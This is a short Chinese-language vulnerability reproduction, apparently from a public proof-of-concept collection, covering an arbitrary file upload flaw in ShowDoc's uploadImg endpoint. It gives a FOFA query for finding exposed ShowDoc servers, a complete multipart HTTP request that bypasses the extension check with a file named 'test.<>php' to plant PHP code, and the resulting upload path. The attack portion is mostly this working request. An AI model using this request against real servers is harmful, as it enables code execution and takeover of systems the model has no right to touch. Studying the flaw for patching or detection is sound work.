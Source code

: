 # ShowDoc PageController存在任意文件上传漏洞

# 一、漏洞简介
ShowDoc是一个非常适合IT团队的在线文档分享工具，它可以加快团队之间沟通的效率。通过showdoc，你可以方便地使用markdown语法来书写出美观的API文档、数据字典文档、技术文档、在线excel文档等等。ShowDoc系统存在任意文件上传漏洞，攻击者可以通过上传恶意文件执行任意命令，获取服务器管理权限。

# 二、影响版本
+ ShowDoc

# 三、资产测绘
+ fofa`app="ShowDoc"`
+ 特征

![1717008909960-98ec294e-2aa1-4ed3-9e3e-77f5ccc28bb4.png](./img/8QZNWZkLqxGKi3s0/1717008909960-98ec294e-2aa1-4ed3-9e3e-77f5ccc28bb4-778686.png)

# 四、漏洞复现
```rust
POST /index.php?s=/home/page/uploadImg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Content-Length: 241
Content-Type: multipart/form-data; boundary=--------------------------921378126371623762173617
Accept-Encoding: gzip

----------------------------921378126371623762173617
Content-Disposition: form-data; name="editormd-image-file"; filename="test.<>php"
Content-Type: text/plain

<?php phpinfo();?>
----------------------------921378126371623762173617--
```

![1717009091618-d86139f0-fa88-44ba-b1b9-816399d8a831.png](./img/8QZNWZkLqxGKi3s0/1717009091618-d86139f0-fa88-44ba-b1b9-816399d8a831-156809.png)

```rust
http://127.0.0.1:8000/Public/Uploads/2024-05-30/66577ab51bb29.php
```

![1717009125691-f848e62e-6145-48a3-9008-d7129dd86854.png](./img/8QZNWZkLqxGKi3s0/1717009125691-f848e62e-6145-48a3-9008-d7129dd86854-508808.png)



> 更新: 2024-06-01 11:14:22  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tw1q4kmr0efcmd8m>